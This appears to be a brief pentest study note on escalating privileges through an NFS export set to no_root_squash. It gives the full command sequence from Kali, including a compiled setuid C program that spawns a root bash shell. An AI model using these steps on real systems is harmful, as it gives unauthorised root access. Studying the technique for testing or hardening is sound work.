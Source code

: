 ```yaml
---
title: NFS Root Squashing
updated: 2023-10-14 23:23:28Z
created: 2023-10-14 13:50:51Z
latitude: -33.86881970
longitude: 151.20929550
altitude: 0.0000
---
```


On target:
1. In command line type: `cat /etc/exports`
eg:
```
/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)
```
3. From the output, notice that “**no_root_squash**” option is defined for the “**/tmp**” export.

**Exploitation**
On Kali:
1. `showmount -e <target IP>`
2. `mkdir /tmp/1`
3. `sudo mount -o rw,vers=2 <target ip>:/tmp /tmp/1`
4. `echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/1/x.c`
5. `gcc /tmp/1/x.c -o /tmp/1/x`
6. `chmod +s /tmp/1/x`

On target:
1. In command prompt type: `/tmp/x`
